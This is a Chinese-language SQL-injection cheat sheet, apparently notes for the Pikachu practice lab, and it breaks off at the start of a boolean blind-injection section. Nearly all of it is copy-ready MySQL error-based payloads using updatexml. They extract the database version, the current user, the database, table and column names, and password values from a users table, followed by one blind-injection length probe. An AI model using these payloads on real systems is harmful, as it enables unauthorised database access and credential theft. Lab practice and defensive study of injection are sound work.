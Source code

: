 ### 爆数据库版本

```
1' and updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1) #
1' and updatexml(1,concat("~",(SELECT @@version),"~),1) #
```

### 爆当前数据库用户

```
1' and updatexml(1,concat(0x7e,(SELECT user()),0x7e),1) #
```

### 爆数据库

```
1' and updatexml(1,concat(0x7e,(SELECT database()),0x7e),1) #
```

### 爆表

```
-- 这个是多行的
1' and updatexml(1,concat(0x7e,(SELECT table_name from information_schema.tables where table_schema='pikachu'),0x7e),1) #
-- 这个是单行的
1' and updatexml(1,concat(0x7e,(SELECT table_name from information_schema.tables where table_schema='pikachu' limit 0,1),0x7e),1) #
```
> 注意修改数据库名和查询的行数

### 爆字段
```
1' and updatexml(1,concat(0x7e,(SELECT column_name from information_schema.columns where table_name='users' limit 0,1),0x7e),1) #
```

### 爆数据
```
1' and updatexml(1,concat(0x7e,(SELECT password from users limit 0,1),0x7e),1) #
```

## 盲注

由于页面不显示查询错误信息，无法判断是否有注入点的情况。

### boolean型盲注

观察响应结果判断数据库名字的长度

```
vince' and length(database())=7#
```

再尝试获取数据库的每个字母
